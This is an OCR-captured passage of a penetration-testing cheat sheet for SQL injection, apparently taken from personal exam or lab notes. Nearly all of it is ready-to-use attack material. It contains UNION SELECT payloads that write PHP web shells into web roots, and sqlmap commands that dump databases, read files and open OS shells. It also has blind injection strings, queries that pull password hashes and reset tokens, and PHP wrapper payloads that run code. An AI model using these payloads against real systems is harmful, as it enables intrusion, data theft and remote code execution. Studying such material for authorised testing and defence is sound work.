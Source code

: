 						Or:  union select '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6 into outfile 'c:/inetpub/wwwroot/_0xdf.php'#
					Unix:  union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'
						Or:  ?cod=1+union+select+1,2,3,4,5,6,'<?php_system($_GET["cmd"]); ?>' into outfile '/var/www/html/cmd.php'
			    		Access:  10.11.0.22/backdoor.php?cmd=ifconfig
					Windows: try creating admin user and add to RDP group
	Automated Exploitation:
		Post:
			Capture request w/ burp & save, then:  sqlmap -r request.txt -p username
		Get:
		    sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id"
			Dump database:   sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --dump [-D Webapp -T Users]
			Open Shell:   sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell
		Examples:
			Automated Scan:  sqlmap -u http://example.com --forms --batch --crawl=10 --cookie=sessionid=12345 --level=5 --risk=3
			Targeted Scan:  sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords --file-read="/var/www/page.php" 
			Check Form for Injection:  sqlmap -o -u "http://example.com/form/" --forms
			sqlmap -u "http://example.com/page.php?id=1" --dbms=mysql --technique=U --random-agent --dump
			sqlmap -o -u "http://example.com/vuln-form" --forms -D database-name -T users --dump
	Blind SQL Injection:
		Boolean (if you have a visual indicator):
			MySQL:
				True:  AAAA')/**/or/**/(select/**/1)=1%23
            			False:  AAAA')/**/or/**/(select/**/1)=0%23
				Extraction:  q=test%27)/**/or/**/(select/**/ascii(substring((select/**/version()),1,1)))=53%23
		Time-Based (if no feedback is displayed):
			PostgreSQL:  ?userId=1;%20SELECT%20pg_sleep(10)%20--
	SQL command LFI/reverse shell:  add field in table with value:  <?php system($_REQUEST["cmd"]);?>
	Follow-on Auth Bypass Methods:
		dump hashes and crack passwords
		account hijack methods (ex. stealing password reset token)
	Fix Collation Error:
                Check Injection Site:  abc" UNION ALL SELECT 1,2,3,4,COLLATION_NAME FROM information_schema.columns WHERE TABLE_NAME = "__global_search" AND COLUMN_NAME = "name"#
                Then Apply:  abc" UNION ALL SELECT 1,2,3,4,name COLLATE utf8mb4_general_ci FROM __Auth#
            Ex. Finding value/pulling column names:  abc" UNION ALL SELECT 1,2,3,4,COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = "tabUser"#
                Pull value:  abc" UNION ALL SELECT name COLLATE utf8mb4_general_ci,2,3,4,reset_password_key COLLATE utf8mb4_general_ci FROM tabUser#
### Useful MySQL Queries:

	SELECT...
	
	concat(host, char(58), user, char(58), password) FROM mysql.user
	user()
	system_user()
	version()
	database()
	@@hostname
	@@datadir
	schema()
	LOAD_FILE('/etc/passwd')
	schema_name FROM information_schema.schemata LIMIT 0,1		#First Limit is offset; second is number of records to pull/display
	table_name from information_schema.tables
	user FROM mysql.user LIMIT 0,1
	PHP Wrappers: 
		Read File:  php://filter/convert.base64-encode/resource=.
		RCE:  data://text/plain,<?php $a="sy";$b="stem";$c=$a.$b; $c("uname -a");?>